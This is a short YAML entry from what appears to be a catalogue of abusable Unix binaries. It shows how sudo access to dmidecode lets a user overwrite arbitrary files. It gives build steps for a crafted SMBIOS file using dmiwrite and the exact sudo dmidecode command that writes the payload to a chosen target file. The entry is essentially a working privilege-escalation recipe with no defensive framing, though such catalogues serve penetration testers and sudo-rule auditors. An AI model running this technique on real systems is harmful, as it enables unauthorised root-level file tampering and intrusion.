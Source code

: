 ```yaml
---
functions:
  sudo:
    - description: |
        It can be used to overwrite files using a specially crafted SMBIOS file that can be read as a memory device by dmidecode.
        Generate the file with [dmiwrite](https://github.com/adamreiser/dmiwrite) and upload it to the target.
          --dump-bin, Will cause dmidecode to write the payload to the destination specified, prepended with 32 null bytes.
          --no-sysfs, If the target system is using an older version of dmidecode, you may need to omit the option.
        ```
        make dmiwrite
        TF=$(mktemp)
        printf "\nDATA" > $TF
        ./dmiwrite $TF x.dmi
        ```
      code: |
        LFILE=file_to_write
        sudo dmidecode --no-sysfs -d x.dmi --dump-bin "$LFILE"
---
```

